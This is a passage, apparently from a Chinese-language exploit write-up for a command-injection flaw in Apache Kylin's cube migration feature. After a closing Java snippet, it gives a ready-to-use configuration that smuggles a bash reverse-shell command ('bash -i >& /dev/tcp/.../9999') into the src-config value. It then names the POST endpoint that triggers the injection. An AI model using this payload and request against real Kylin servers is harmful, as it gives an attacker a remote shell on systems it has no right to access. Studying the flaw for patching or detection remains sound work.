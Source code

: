```
        }

        try {
            int exitCode = proc.waitFor();
            return Pair.newPair(exitCode, result.toString());
        } catch (InterruptedException e) {
            Thread.currentThread().interrupt();
            throw new IOException(e);
        }
    }

}
```

由此可以得出我们可以通过这两个可控的参数，执行任意我们需要的命令，例如反弹一个shell，设置的配置为

```
kylin.tool.auto-migrate-cube.enabled=true
kylin.tool.auto-migrate-cube.src-config=echo;bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
kylin.tool.auto-migrate-cube.dest-config=shell
```

![](/images/202205251559000.png)

再去发送`POST`请求 `/kylin/api/cubes/kylin_sales_cube/learn_kylin/migrate`
